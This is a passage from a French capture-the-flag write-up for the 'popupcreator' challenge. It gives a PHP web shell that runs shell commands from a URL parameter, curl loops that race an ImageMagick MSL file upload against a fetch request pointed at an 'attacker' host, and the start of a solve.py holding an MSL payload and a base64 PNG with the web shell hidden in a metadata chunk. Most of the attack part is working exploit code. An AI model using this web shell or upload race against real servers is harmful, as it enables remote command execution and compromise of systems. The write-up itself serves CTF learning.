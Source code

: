 ```raw
000000f0: 653a 6372 6561 7465 0032 3032 332d 3131  e:create.2023-11
00000100: 2d30 3754 3039 3a32 303a 3030 2b30 303a  -07T09:20:00+00:
00000110: 3030 a561 3bf0 0000 0025 7445 5874 6461  00.a;....%tEXtda
00000120: 7465 3a6d 6f64 6966 7900 3230 3233 2d31  te:modify.2023-1
00000130: 312d 3037 5430 393a 3230 3a30 302b 3030  1-07T09:20:00+00
00000140: 3a30 30d4 3c83 4c00 0000 0049 454e 44ae  :00.<.L....IEND.
00000150: 4260 82                                  B`.
```

La backdoor PHP retenue est le code suivant :

```php
<?php
var_dump(shell_exec($_GET["c"]));
?>
```

#### Race-Condition

La première requête consistant à envoyer notre fichier malveillant.msl en boucle est la suivante :

```bash
while true; do curl -X POST "https://popupcreator.ctf.bzh/" -F 'file=@malveillant.msl'; done
```

*Note: Il est possible de multiplier le nombre de fichier en spécifiant plusieurs options -F*.

La deuxième requête consistant à déclencher notre appel à `Imagick()` est l'appel au fetcher suivant :

```bash
while true; do curl 'http://popupcreator.ctf.bzh/fetch' -X POST -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' --data-raw 'url=http%3A%2F%2Fattacker%2F'; done
```

Après quelques secondes, le fichier `bugs.php` est modifié et contient notre backdoor. On peut alors exécuter nos commandes à l'aide de l'URL http://popupcreator.ctf.bzh/bugs.php?c=id. 

Il suffit enfin de lire le fichier flag.txt au travers de la backdoor.


### Solve.py

Voici un script python permettant d'effectuer l'ensemble des opérations à l'aide d'une seule commande :

```python
#!/usr/bin/env python3

import argparse
import base64
import io
import requests
import time
from flask import Flask, send_file
from threading import Thread

MSL_PAYLOAD = """<?xml version="1.0" encoding="UTF-8"?>
<image>
    <read filename="{URL}" />
    <write filename="/var/www/html/bugs.php" />
</image>"""

IMG_WEBSHELL = "iVBORw0KGgoAAAANSUhEUgAAAAEAAAABAQMAAAAl21bKAAAABGdBTUEAALGPC/xhBQAAACBjSFJNAAB6JgAAgIQAAPoAAACA6AAAdTAAAOpgAAA6mAAAF3CculE8AAAABlBMVEX/AAD///9BHTQRAAAAAWJLR0QB/wIt3gAAAAd0SU1FB+cLBwkUAAztZOgAAAAKSURBVAjXY2AAAAACAAHiIbwzAAAANHRFWHRDb3B5cmlnaHQAPD9waHAgdmFyX2R1bXAoc2hlbGxfZXhlYygkX0dFVFsiYyJdKSk7ID8+tvIpDgAAACV0RVh0ZGF0ZTpjcmVhdGUAMjAyMy0xMS0wN1QwOToyMDowMCswMDowMKVhO/AAAAAldEVYdGRhdGU6bW9kaWZ5ADIwMjMtMTEtMDdUMDk6MjA6MDArMDA6MDDUPINMAAAAAElFTkSuQmCC"

THREADS_NB = 1
```